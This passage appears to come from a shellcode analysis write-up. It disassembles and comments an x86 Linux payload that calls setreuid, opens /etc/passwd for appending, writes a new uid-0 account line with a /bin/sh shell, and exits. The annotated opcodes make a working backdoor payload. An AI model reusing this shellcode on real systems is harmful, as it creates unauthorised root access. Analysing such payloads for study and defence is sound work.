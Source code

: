 ```x86asm
00000055  6A04              push byte +0x4
00000057  58                pop eax
00000058  CD80              int 0x80
0000005A  6A01              push byte +0x1
0000005C  58                pop eax
0000005D  CD80              int 0x80
```

Cleaning this results in the following commented code:
```x86asm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax             ; 0x46 from stack
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 70$"
    ; setreuid()
    ; int setreuid(uid_t ruid, uid_t euid);
00000007  CD80              int 0x80




00000009  6A05              push byte +0x5
0000000B  58                pop eax             ; 0x5 from stack
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 5$"
    ; open ()
    ; int open(const char *pathname, int flags);
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373   ; (ascii) dwss
00000014  682F2F7061        push dword 0x61702f2f   ; (ascii) ap//
00000019  682F657463        push dword 0x6374652f   ; (ascii) cte/
0000001E  89E3              mov ebx,esp             ; /etc//passwd
00000020  41                inc ecx                 ; ecx = 1
00000021  B504              mov ch,0x4              ; ecx = 0x401 (O_WRONLY|O_APPEND)
00000023  CD80              int 0x80                ; open("/etc//passwd", 0x0401)



00000025  93                xchg eax,ebx            ; ebx = ptr to file
00000026  E826000000        call 0x51               ; call label1 


0000002B  757365726E616D653A417A796477666F6967425472733A303A303A3A2F3A2F62696E2F73680A
; (ascii) username:AzydwfoigBTrs:0:0::/:/bin/sh

label1:             
; rebuilt with `echo -n "`python2 -c 'print "\x90"*81'`\x59\x8b\x51\xfc\x61\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -p intel -`
00000051  59                pop ecx             ; ptr to 0x2b
00000052  8B51FC            mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
00000055  6A04              push byte +0x4      ; 
00000057  58                pop eax             ; write()
00000058  CD80              int 0x80            ; ssize_t write(int fd, const void *buf, size_t count);



0000005A  6A01              push byte +0x1      
0000005C  58                pop eax             
0000005D  CD80              int 0x80            ; exit()
```
